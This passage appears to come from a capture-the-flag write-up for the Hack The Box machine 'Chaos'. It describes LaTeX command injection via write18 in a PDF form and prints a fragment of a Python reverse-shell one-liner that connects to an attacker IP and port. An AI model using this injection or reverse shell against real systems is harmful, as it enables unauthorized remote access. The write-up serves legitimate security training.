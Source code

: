 This can be done by opening `/etc/hosts` and adding a line
```
10.10.10.120    chaos.htb
```

Save it and then try to visit the above URL.

![alt text](Images/URL.png)

Seeing this kind of form I thought I might have to play with XSS but nope it's completely different and actually very simple.
I googled for a while and found a vulnerability in PDF+latex(http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/). Basically we can execute any command just by putting them in `\intermediate\write18{}`.

So I tried getting reverse shell with this

```
socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.13.198",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

